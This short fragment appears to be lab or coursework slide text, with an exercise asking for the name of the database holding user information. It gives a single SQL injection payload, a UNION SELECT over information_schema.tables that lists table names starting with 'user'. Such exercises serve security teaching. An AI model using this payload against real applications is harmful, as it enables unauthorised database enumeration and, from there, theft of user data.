

Part C

Task 1
b) determie the name of the database containing the user information
%' and 1=0 union select null,null, table_name from information_schema.tables where table_name like 'user%'#